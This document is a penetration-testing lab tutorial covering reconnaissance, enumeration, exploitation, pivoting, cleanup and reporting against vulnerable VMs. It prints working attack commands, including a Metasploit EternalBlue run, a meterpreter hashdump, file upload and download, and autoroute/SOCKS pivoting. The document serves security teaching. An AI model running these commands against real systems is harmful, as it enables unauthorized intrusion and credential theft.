


This document guides you through a **complete penetration testing lab** you can run in a safe, isolated environment. It’s written for learners who want to practice realistic pentest workflows from discovery to reporting using commonly used tools like **Nmap**, **Burp Suite**, **Metasploit**, and manual testing techniques.

Everything here is for **lab use only**. Do **not** apply these techniques against third-party systems without written permission.

:::warning Ethics & Legality
Never run attacks against systems you do not own or explicitly have permission to test. Always get **written authorization** and follow a defined **Rules of Engagement (RoE)** before any active testing.
:::

## Lab Topology (Suggested)



Recommended VMs:

* **Kali Linux** — attacker toolkit
* **Metasploitable / DVWA / Juice Shop / VulnVM** — intentionally vulnerable targets
* **Windows vulnerable image** — for Windows-specific exercises
* **Security Onion / Snort** — monitor and learn detection side (optional but highly recommended)

Use an **internal** or **host-only** network to keep traffic isolated.

## Pentest Workflow Overview

A typical penetration test flows like this:



Each phase has clear goals and outputs that feed the next phase.

## 1) Reconnaissance — Passive then Active

**Goal:** Collect as much info as possible without alerting defenders (passive), then validate with active probes.

Passive sources (lab-only):

* Host OS banners, documentation, Git repos (if local), web content.

Active discovery tools & commands:

```bash
# Host discovery
nmap -sn 192.168.56.0/24

# Quick service scan (top ports)
nmap --top-ports 100 -sV -oN quick.txt 192.168.56.101

# Full TCP port + version detection (lab)
sudo nmap -p- -sS -sV -O -oN full_scan.txt 192.168.56.101
```

Save results into your case notes (files, screenshots, or Metasploit DB).

## 2) Scanning & Enumeration

**Goal:** Identify open services, versions, directories, user accounts, and application entry points.

Useful tools & examples:

* **Nmap NSE** — service/script checks:

  ```bash
  sudo nmap -sV --script vuln,auth 192.168.56.101
  ```
* **Nikto / Nikto for web servers:**

  ```bash
  nikto -h http://192.168.56.101
  ```
* **Dirbuster / gobuster** — enumerate directories:

  ```bash
  gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```
* **Burp Suite / OWASP ZAP** — intercept and explore web app logic (login flows, APIs).

Collect:

* Service banners and versions
* Directory & file enumerations
* Interesting endpoints (login, upload, admin panels)
* Credentials or weak auth behavior

## 3) Vulnerability Identification

**Goal:** Map discovered services to known issues and decide which to safely test.

Approach:

* Match service versions to known CVEs (use Nmap `--script vuln` and local CVE databases).
* Prioritize by **exploitability** and **impact** (see prioritization formula below).
* Verify findings manually before attempting exploitation.

**Risk Prioritization Formula:**

$$
\text{Risk} = \text{Exploitability} \times \text{Impact}
$$

Where each value is normalized between 0 and 1. Use this to prioritize what to test first.

## 4) Exploitation — Gaining Access (Lab Only)

**Goal:** Prove exploitability and obtain a controlled shell/session (meterpreter, reverse shell).

Common methods (lab safe):

* **Web vulnerabilities:** SQLi, RCE, file upload, SSRF — use Burp Suite + manual payloads.
* **Service exploits:** Metasploit modules for known CVEs.
* **Password attacks:** Hydra for online login brute-force (lab only).

Example Metasploit flow:

```text
msf6 > search ms17_010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.56.102
msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.56.1
msf6 exploit(ms17_010_eternalblue) > run
```

**When exploiting:**

* Use *non-destructive* options; avoid payloads that crash the system unless you have explicit permission.
* Record proof-of-concept (screenshots, safe logs, console output) rather than destructive proof.

## 5) Post-Exploitation — What to Do After Access

**Goals:** Determine impact, pivot options, persistence (only if allowed), and collect evidence.

Common actions (lab):

* **Enumerate system**: `whoami`, `ipconfig`/`ifconfig`, installed software.
* **Credentials & tokens**: Dump or search for config files, credential stores (ethical constraints apply).
* **Privilege escalation:** Look for SUID binaries, unpatched kernels, misconfigurations. Tools: `linpeas`, `winpeas`.
* **Data discovery:** Search for sensitive files, databases, or keys.

Example Meterpreter commands:

```text
meterpreter > sysinfo
meterpreter > getuid
meterpreter > hashdump   # only in lab and with permission
meterpreter > upload /tmp/fix.sh C:\\Windows\\Temp\\fix.sh
```

Document everything and avoid leaving persistent backdoors unless part of the test plan.

## 6) Lateral Movement & Pivoting

**Goal:** Use the initial foothold to reach other internal systems (simulated corporate networks).

Pivot techniques (lab-only):

* **SSH tunneling / port forwarding**:

  ```bash
  ssh -L 8080:10.0.0.5:80 user@compromised-host
  ```
* **Meterpreter autoroute + socks proxy**:

  ```text
  meterpreter > run autoroute -s 10.0.0.0/24
  use auxiliary/server/socks_proxy
  set SRVPORT 1080
  run
  ```
* **ProxyChains / SOCKS** to route tools through pivot.

Always check the RoE before performing lateral movement or persistence actions.

## 7) Cleanup & Restoration

After testing:

* Remove any tools or files you uploaded.
* Revert VM snapshots or restore images to a clean state.
* Rotate credentials changed for testing.
* Document cleanup steps in your report.

Example cleanup steps:

```bash
# On compromised host (lab)
rm /tmp/malicious_tool
# On attacker, remove payloads and handlers
```

## 8) Reporting — The Most Valuable Deliverable

A pentest report should be clear, reproducible, and actionable.

Essential sections:

* **Executive Summary** — non-technical impact.
* **Scope & RoE** — targets, dates, authorizations.
* **Methodology** — tools and steps used.
* **Findings** — vuln description, evidence (screenshots/logs), CVE references.
* **Risk Rating** — severity, exploitability, business impact.
* **Remediation** — prioritized, concrete fixes and code/config examples.
* **Appendices** — raw output (nmap, nikto), payloads, session logs.

Use the following risk matrix as guidance:

| Severity | Description                                 | Action                             |
| -------- | ------------------------------------------- | ---------------------------------- |
| Critical | Remote code execution, full DB exfiltration | Patch ASAP / temporary containment |
| High     | Auth bypass, sensitive data leak            | Fix within days                    |
| Medium   | Info disclosure, misconfig                  | Plan within weeks                  |
| Low      | Minor misconfig                             | Routine patching                   |

## Useful Commands & Quick Cheatsheet

### Recon & Scanning

```bash
nmap -sn 192.168.56.0/24
sudo nmap -p- -sS -sV -O -oN full_scan.txt 192.168.56.101
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
nikto -h http://192.168.56.101
```

### Web Testing (Burp)

* Intercept -> Repeater -> Intruder
* Use Scanner (Pro) or OWASP ZAP for automation in staging.

### Exploitation

```text
msfconsole
use exploit/...
set RHOSTS <target>
set LHOST <attacker-ip>
set PAYLOAD <payload>
exploit
```

### Post-Exploitation

```text
meterpreter > sysinfo
meterpreter > ps
meterpreter > download /path/to/file
meterpreter > run autoroute -s 10.0.0.0/24
```

## Hands-On Lab Exercises

1. **Full Recon to Exploit (Beginner)**

   * Target: DVWA or Metasploitable
   * Steps: nmap → gobuster → nikto → Burp intercept → exploit simple SQLi or RCE → document POC.

2. **Windows Exploit Chain (Intermediate)**

   * Target: Vulnerable Windows VM
   * Steps: nmap → smbenum → MS17-010 module → meterpreter → privilege escalation with local exploit.

3. **Pivoting & Internal Recon (Advanced)**

   * Multi-host lab with segmented networks
   * Steps: Gain initial shell → configure SOCKS proxy → use proxychains to reach internal-only services → escalate.

## Practical Tips & Best Practices

* Use **snapshots** liberally — take one before every major step.
* Keep **detailed notes** (time-stamped) — they become your report’s backbone.
* Use **non-destructive** proof-of-concept evidence (screenshots, safe read-only dumps).
* Automate repeatable tasks with scripts but be careful: automation can be noisy.
* Pair offensive work with defensive checks — run your detections in Security Onion or Splunk to learn what gets logged.

## Final Checklist (Pre-Test)

* [ ] Written authorization & RoE document signed
* [ ] Scope & targets clearly listed (IP ranges, hosts)
* [ ] Time windows agreed (when active tests are allowed)
* [ ] Contacts for emergency/rollback if things go wrong
* [ ] Snapshots or backups available for all targets